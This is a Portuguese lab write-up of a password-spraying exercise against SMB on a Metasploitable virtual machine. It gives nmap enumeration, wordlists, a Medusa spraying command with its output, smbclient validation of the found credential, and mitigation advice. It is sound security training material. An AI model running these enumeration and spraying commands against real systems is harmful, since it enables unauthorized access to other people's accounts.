



# Cenário 3 — Password Spraying em SMB

Script usado: [`../scripts/03_smb_password_spray.sh`](../scripts/03_smb_password_spray.sh)

## 1. Enumeração de usuários e compartilhamentos (Nmap)

```bash
nmap -p 139,445 --script smb-enum-users,smb-enum-shares 192.168.56.101
```

**Resultado — dois achados importantes, antes mesmo de testar qualquer senha:**

1. **Enumeração anônima de usuários funcionou** (`account_used: <blank>`,
   ou seja, sem nenhuma autenticação) — o Samba do alvo permitiu listar
   os **32 usuários do sistema** sem exigir credencial nenhuma.
2. **Compartilhamentos com acesso anônimo de leitura/escrita**: `IPC$` e
   `tmp` aparecem com `Anonymous access: READ/WRITE`.

```
| smb-enum-users:
|   METASPLOITABLE\msfadmin (RID: 3000)
|     Full name:   msfadmin,,,
|     Flags:       Normal user account                    <- ativo (sem "disabled")
|   METASPLOITABLE\user (RID: 3002)
|     Full name:   just a user,111,,
|     Flags:       Normal user account                    <- ativo (sem "disabled")
|   METASPLOITABLE\root (RID: 1000)
|     Flags:       Normal user account, Account disabled
|   ... (mais 29 contas de sistema, todas "Account disabled")
|
| smb-enum-shares:
|   \\192.168.56.101\IPC$:   Anonymous access: READ/WRITE
|   \\192.168.56.101\tmp:    Anonymous access: READ/WRITE
```

Das 32 contas listadas, apenas **2 não estão desabilitadas**:
`msfadmin` e `user` — as demais são contas de sistema (root, daemon,
bin, mysql, postgres, www-data, etc.), que normalmente não aceitam
login interativo. Isso orienta a estratégia de ataque: focar nas contas
que realmente podem autenticar.

## 2. Construindo as wordlists a partir da enumeração real

Em vez de usar uma lista genérica de usuários, usamos a lista **real**
obtida na enumeração (priorizando as contas ativas + algumas plausíveis):

```bash
cat > ~/wordlists/smb_usuarios.txt << 'EOF'
msfadmin
user
root
backup
service
postgres
mysql
EOF
```



E uma lista **curta** de senhas comuns (coração do password spraying —
poucas senhas, muitos usuários):

```bash
cat > ~/wordlists/smb_senhas.txt << 'EOF'
msfadmin
123456
password
EOF
```



## 3. Password spraying com Medusa

```bash
medusa -h 192.168.56.101 -U ~/wordlists/smb_usuarios.txt -P ~/wordlists/smb_senhas.txt -M smbnt -t 3
```

Note que **não** usamos `-f` aqui (que para na primeira credencial
válida) — o objetivo é observar o comportamento completo do spraying
contra todos os usuários, não só achar a primeira senha.

**Resultado:**

```
ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 User: msfadmin Password: password (1 of 3)
ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin (2 of 3)
ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin
  [SUCCESS (ADMIN$ - Access Allowed)]
ACCOUNT CHECK: ... User: user       Password: 123456/msfadmin/password  -> nenhuma válida
ACCOUNT CHECK: ... User: root       Password: 123456/msfadmin/password  -> nenhuma válida
ACCOUNT CHECK: ... User: backup     Password: 123456/msfadmin/password  -> nenhuma válida
ACCOUNT CHECK: ... User: service    Password: 123456/msfadmin/password  -> nenhuma válida
ACCOUNT CHECK: ... User: postgres   Password: 123456/msfadmin/password  -> nenhuma válida
ACCOUNT CHECK: ... User: mysql      Password: 123456/msfadmin/password  -> nenhuma válida
```

Credencial encontrada: **`msfadmin:msfadmin`** (a mesma do Cenário 1 —
reutilização de senha entre serviços diferentes, um risco comum em
ambientes reais). Das 21 combinações testadas (7 usuários × 3 senhas),
apenas 1 foi válida.

## 4. Validação manual

```bash
smbclient -L 192.168.56.101 -U msfadmin%msfadmin
```

Resultado: lista de compartilhamentos, incluindo um diretório **home
exclusivo do usuário `msfadmin`** ("Home Directories"), confirmando
autenticação real e bem-sucedida.



## Resultado

| Item | Resultado |
|---|---|
| Serviço | SMB (Samba 3.0.20-Debian) |
| Enumeração anônima de usuários | ✅ Possível — 32 usuários listados sem autenticação |
| Compartilhamentos com acesso anônimo R/W | `IPC$`, `tmp` |
| Credencial encontrada (spraying) | `msfadmin:msfadmin` |
| Combinações testadas | 21 (7 usuários × 3 senhas) |
| Validação manual | ✅ Confirmado via `smbclient` |

## Força bruta clássica vs. Password Spraying

| | Força bruta clássica | Password spraying |
|---|---|---|
| Estratégia | Muitas senhas × 1 usuário | Poucas senhas × muitos usuários |
| Tentativas por conta | Alto (ex.: 1021 no Cenário 1) | Baixo (3 no Cenário 3) |
| Risco de lockout de conta | Alto | Baixo |
| Facilidade de detecção | Alta (muitas falhas na mesma conta) | Menor (tentativas distribuídas) |
| Uso realista em ataques | Menos comum hoje | Técnica real contra AD/O365/VPN corporativos |

## Mitigação específica para este cenário

- **Desabilitar enumeração anônima de usuários e compartilhamentos**
  via SMB (`restrict anonymous` no Samba/Windows) — foi o achado mais
  crítico deste cenário, e independe de qualquer senha.
- **Remover acesso anônimo de leitura/escrita** em compartilhamentos
  (`IPC$`, `tmp` neste caso).
- **Detecção de spraying**: como as tentativas são distribuídas entre
  muitos usuários, bloqueio de conta tradicional não resolve sozinho —
  é necessário monitoramento agregado (ex.: "N tentativas falhas em
  qualquer conta, vindas do mesmo IP, em M minutos").
- **Não reutilizar senhas** entre serviços diferentes (aqui, a mesma
  senha do FTP — Cenário 1 — também funcionou no SMB).
- **MFA** sempre que o protocolo/sistema suportar.
- Desabilitar contas de sistema para login interativo/remoto quando não
  for necessário (a maioria já estava desabilitada neste ambiente, o
  que é uma boa prática).

---

Laboratório completo — veja o [README](../README.md) para o resumo geral.
